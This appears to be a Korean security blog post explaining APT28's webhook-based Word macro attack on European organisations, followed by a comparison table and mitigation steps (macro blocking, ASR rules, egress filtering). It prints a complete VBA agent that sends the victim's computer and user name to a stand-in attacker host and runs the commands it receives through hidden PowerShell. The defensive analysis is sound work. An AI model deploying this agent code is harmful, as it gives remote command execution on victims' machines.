

## 서론

유럽의 어느 외교관무원의 메일함에 평소와 다름없는 긴급 공문이 도착했습니다. 발신자는 동맹국의 정부 기관으로 위장되었고, 첨부된 Microsoft Word 문서에는 "암호화된 보안 정책"이 담겨 있다고 안내되어 있습니다. 별다른 의심 없이 문서를 연 그는 "보안 콘텐츠 활성화(Enable Content)" 버튼을 클릭합니다. 순간 화면은 아무 일 없다는 듯 정상적인 문서를 표시하지만, 백그라운드에서는 완전히 다른 이야기가 전개됩니다.

이 문서는 단순히 악성코드를 다운로드하는 '드로퍼(Dropper)'가 아닙�습니다. 문서 내부의 VBA(Visual Basic for Applications) 매크로는 즉시 웹훅(Webhook) 클라이언트로 변신하여, 공격자의 C2(Command & Control) 서버와 지속적인 통신 채널을 구축합니다. 이것이 바로 러시아 국가 지원 해킹 그룹으로 알려진 APT28(Fancy Bear)이 최근 유럽 기관을 상대로 감행한 공격 기법입니다.

왜 우리는 이 기법에 주목해야 할까요? 기존의 매크로 악성코드는 대부분 실행 파일(EXE, DLL 등)을 다운로드하여 시스템에 침투하는 방식을 취했습니다. 따라서 다운로드 시점이나 실행 파일 생성 시점에서 탐지가 가능했습니다. 하지만 이번 웹훅 매크로는 문서 자체가 에이전트 역할을 수행하며, 정상적인 HTTPS 웹 트래픽처럼 보이는 웹훅 요청을 통해 명령을 주고받습니다. 기존의 네트워크 방화벽이나 침입 탐지 시스템(IDS)이 이를 정상적인 오피스 트래픽이나 클라우드 API 호출로 착각하여 우과할 가능성이 매우 높습니다. 공격의 은밀함이 극대화된 셈입니다.

## 본론

### 웹훅 매크로의 기술적 원리와 공격 흐름

APT28이 사용하는 이 기법의 핵심은 VBA가 제공하는 `WinHTTP` 또는 `MSXML2` 객체를 이용해 HTTP 요청을 직접 생성하는 것입니다. 공격자는 악성 코드를 별도로 페이로드로 싣지 않고, 매크로 내부에 포함된 코드가 웹훅 URL로 지속적으로 "Heartbeat(생존 신호)"를 보내게 합니다. C2 서버는 이 요청을 확인하고 응답 헤더나 본문에 암호화된 명령을 포함하여 되돌려줍니다.

이 과정은 기존의 리버스 쉘(Reverse Shell)이나 일반적인 HTTP C2 트래픽과 유사하지만, **"웹훅(Webhook)"**이라는 용어가 쓰이는 이유는 공격자가 클라우드 기반의 메신저나 프로젝트 관리 도구(예: Discord, Trello, Slack 등)와 같은 정상적인 웹 서비스를 중계 서버로 악용하거나, 마치 웹훅 이벤트를 처리하듯 POST 요청을 유도하기 때문입니다. 이는 트래픽 분석 시 특정 IP를 탐지하는 것만으로는 막을 수 없음을 의미합니다.

다음은 이 공격의 전형적인 수행 과정을 시각화한 것입니다.



### 실제 공격 시나리오 분석: VBA 웹훅 클라이언트

보안 진단을 목적으로, APT28의 기법을 모방하여 구조화한 VBA 코드를 분석해 보겠습니다. 이 코드는 교육 및 방어 목적의 개념 증명(PoC)입니다.

공격자는 주로 `WinHttp.WinHttpRequest.5.1` 객체를 사용하여 세밀한 헤더 제어를 시도합니다. 또한, User-Agent를 정상적인 브라우저나 오피스 제품으로 위장하여 탐지를 회피합니다.

```text
' [방어 목적의 분석 코드] 실제 악성코드는 난독화되어 있음
Sub WebhookAgent()
    Dim HttpReq As Object
    Dim C2_URL As String
    Dim VictimID As String
    Dim Response As String
    
    ' C2 서버 URL (실제 공격에서는 유명한 서비스를 스푸핑하거나 탈취한 도메인 사용)
    C2_URL = "https://attacker-controlled-api[.]com/v1/webhook"
    
    ' 고유 피해자 식별자 생성
    VictimID = Environ("COMPUTERNAME") & "_" & Environ("USERNAME")
    
    Set HttpReq = CreateObject("WinHttp.WinHttpRequest.5.1")
    
    On Error Resume Next
    
    Do While True
        ' 1. C2 서버에 등록(Heartbeat) 및 명령 요청
        HttpReq.Open "POST", C2_URL, False
        ' 탐지 우회를 위해 User-Agent 위장
        HttpReq.SetRequestHeader "User-Agent", "Microsoft Office/16.0 (Windows NT 10.0; Microsoft Office 16.0; Pro)"
        HttpReq.SetRequestHeader "Content-Type", "application/json"
        
        ' 시스템 정보를 JSON 형태로 전송 (간소화됨)
        Dim Payload As String
        Payload = "{""id"": """ & VictimID & """, ""status"": ""active""}"
        
        HttpReq.Send Payload
        
        ' 2. 서버로부터의 응답 수신
        If HttpReq.Status = 200 Then
            Response = HttpReq.ResponseText
            
            ' 3. 간단한 명령 처리 로직 (실제로는 Base64 등으로 인코딩된 명령)
            If InStr(Response, "cmd_exec") > 0 Then
                Dim CmdToRun As String
                ' 응답에서 실제 명령어 파싱 (예시)
                CmdToRun = Replace(Response, "cmd_exec:", "")
                
                ' PowerShell을 통해 악성 스크립트 실행 (무음 모드)
                Shell "powershell.exe -WindowStyle Hidden -Command " & CmdToRun, vbHide
            End If
            
            ' 결과를 다시 C2로 보내는 로직이后续에 이어짐...
        End If
        
        ' 4. 탐지 회피를 위한 랜덤 대기 시간 (Sleep)
        Application.Wait (Now + TimeValue("0:00:30"))
        
    Loop
End Sub
```

이 코드를 살펴보면, 매크로가 단순히 텍스트를 보여주는 것을 넘어 네트워크 통신을 주도적으로 제어하고 있음을 알 수 있습니다. 특히 `powershell.exe`를 호출하는 지점은 전형적인 "Living off the Land" 기법으로, 시스템에 이미 존재하는 도구를 악용하여 백신의 파일 기반 탐지를 피하는 전략입니다.

### 기존 매크로 vs 웹훅 매크로 비교

이 공격이 기존의 방식과 어떻게 다른지 명확히 이해하는 것이 중요합니다. 표를 통해 차이점을 비교해 보겠습니다.

| 비교 항목 | 전통적 매크로 드로퍼 | 웹훅 기반 매크로 (APT28) |
| :--- | :--- | :--- |
| **주요 목적** | 악성 실행 파일(PE) 다운로드 및 실행 | 매크로 내부에서 지속적인 C2 통신 및 명령 수행 |
| **네트워크 트래픽** | 대용량 파일 다운로드 (단발성) | 작은 규격의 주기적인 API 호출 (지속적) |
| **탐지 난이도** | 다운로드 파일 자체의 시그니처 탐지 가능 | 트래픽이 정상 웹 API/웹훅처럼 보여 탐지 어려움 |
| **파일 시스템 흔적** | 디스크에 악성 파일写入 (Disk Write) 발생 | 별도의 악성 파일 생성 없이 메모리 상에서 동작 가능 |
| **지속성(Persistence)** | 별도의 실행 파일이 윈도우 시작 프로그램 등에 등록 | 문서 자체가 트리거 역할 (사용자가 재실행해야 함) 혹은 WMI 이용 |
| **차단 방법** | 파일 다운로드 차단, 실행 파일 생성 탐지 | Office 프로세스의 아웃바운드 트래픽 필터링 필요 |

### 단계별 방어 및 완화 가이드

이러한 고도화된 공격에 대응하기 위해 보안 팀은 단순한 백신 업데이트를 넘어 심층적인 방어 전략을 수립해야 합니다.

1.  **Microsoft Office 매크로 차단 (가장 기본적이고 효과적)**     인터넷에서 받은 문서의 매크로 실행을 원천 차단해야 합니다. 이는 현재 가장 확실한 예방법입니다.

2.  **ASR (Attack Surface Reduction) 규칙 적용**     Microsoft Defender ASR 규칙 중 "Office 애플리케이션이 자식 프로세스를 생성하는 것 차단" 및 "Office 애플리케이션에서 Win32 API 호출 차단" 규칙을 활성화합니다. 이는 매크로가 PowerShell이나 CMD를 실행하는 것을 기술적으로 막습니다.

    ```powershell     # PowerShell 관리자 모드 실행 예시     # 규칙: Office 애플리케이션이 자식 프로세스를 생성하는 것 차단 (GUID: D4F940AB-401B-4EFC-AADC-AD5F3C50688A)     Set-MpPreference -AttackSurfaceReductionRules_Ids D4F940AB-401B-4EFC-AADC-AD5F3C50688A -AttackSurfaceReductionRules_Actions Enabled     ```

3.  **네트워크 트래픽 모니터링 및 EGRESS 제어**     방화벽이나 프록시에서 Microsoft Office 프로세스(`winword.exe`, `excel.exe`)가 인터넷으로 직접 아웃바운드 연결을 시도하는 것을 차단해야 합니다. 비즈니스 환경에서는 문서 편집 프로그램이 직접 외부 API를 호출할 필요가 거의 없습니다.

    *   *체크리스트:*         *   `winword.exe` -> `non-Microsoft domain` 연결 로그 검토         *   Content-Type이 `application/json`이거나 `application/x-www-form-urlencoded`인 Office 트래픽 탐지

## 결론

APT28의 웹훅 매크로 공격은 사이버 전쟁의 패러다임이 "양적 증가"에서 "질적 은폐"로 변화하고 있음을 보여줍니다. 공격자는 굳이 복잡한 악성코드를 개발하지 않고도, 신뢰할 수 있는 애플리케이션(Office)과 정상적인 프로토콜(HTTP/HTTPS)을 조합하여 방어망을 뚫습니다.

핵심은 매크로가 이제 단순한 자동화 도구가 아니라 **'가벼운 악성 소프트웨어'**로 진화했다는 점입니다. 우리는 더 이상 첨부 파일의 확장자만 보고 안심할 수 없습니다. 보안 전문가로서, 로그 분석 시 `winword.exe`의 네트워크 통신 여부를 확인하는 습관을 들이고, ASR과 같은 행동 기반 차단 기술을 적극 도입하여 공격의 사슬을 초기에 끊어야 합니다.

--- **참고자료**

- [The Hacker News - APT28 Targeted European Entities Using Webhook-Based Macro Malware](https://thehackernews.com/2024/05/apt28-targeted-european-entities-using.html)

- [Microsoft Defender - Attack Surface Reduction Rules](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/attack-surface-reduction)

- [MITRE ATT&CK - T1566.001 Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001/)
